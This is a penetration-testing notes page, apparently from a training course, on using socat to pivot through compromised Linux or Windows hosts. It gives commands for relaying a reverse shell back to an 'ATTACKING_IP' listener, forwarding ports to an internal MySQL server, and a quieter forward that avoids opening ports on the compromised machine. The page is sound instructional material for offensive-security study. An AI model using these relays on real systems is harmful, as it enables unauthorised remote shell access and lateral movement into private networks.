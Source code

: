 ```yaml
---
description: >-
  Socat is not just great for fully stable Linux shells, it's also superb for
  port forwarding.
---
```


# Socat

The one big **disadvantage** of socat (aside from the frequent problems people have learning the syntax), is that it is **very rarely installed by default** on a target.

Whilst the following techniques could not be used to **set up a full proxy into a target network**, it is quite possible to use them to successfully **forward ports** from both Linux and Windows **compromised targets**. In particular, socat makes **a very good relay**:

* For example, if you are attempting to get a **shell** on a **target** that does not have a **direct connection back** to your attacking computer, you could use socat to set up **a relay** on the **currently compromised machine**. This **listens** for the reverse shell from the target and then **forwards it immediately** back to the **attacking box**:

![](<../../../.gitbook/assets/image (50).png>)

`Socat static binaries :`

{% embed url="https://github.com/andrew-d/static-binaries" %}

```
Think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things.

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward. 
Specifically, in the above example we're creating a port forward from a port on the compromised server to a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a target inside the network, or creating a direct link between a listening port on the attacking machine with the service on the internal server. This latter application is especially useful as it does not require opening a port on the compromised server.
```

***

### Reverse Shell Relay

_Socat_ to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above).

```
# 1. First start a nc listener on the attacking box
sudo nc -lvnp 443

# 2. Next, on the compromised server, to start the relay:
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &

** Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.

- tcp-l:8000 is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- tcp:ATTACKING_IP:443 connects back to our local IP on port 443. 
```

* In this way, we can set up **a relay to send reverse shells through a compromised system**, back to our own **attacking machine**. This technique can also be chained quite easily; however, in many cases it may be **easier** to just upload **a static copy of netcat** to receive your reverse shell **directly on the compromised server**.

### Port Forwarding -- Easy

With _socat_ simply to open up a **listening port** on the **compromised server**, and **redirect whatever comes** into it to the **target server**.

* For example, if the **compromised server** is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create **a port forward**:

```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
# 33060 : the port we opened on the compromised server
# 3306 : the port opened on the intended target server

- fork : used to put every connection into a new process
- reuseaddr : the port stays open after a connection is made to it
- Combined, they allow us to use the same port forward for more than one connection. 
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10.

* We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

### Port Forwarding -- Quiet

This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

```
# 1. On the attacking machine :
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

```
# 2. On the compromised relay server, execute:
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

// This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!
```
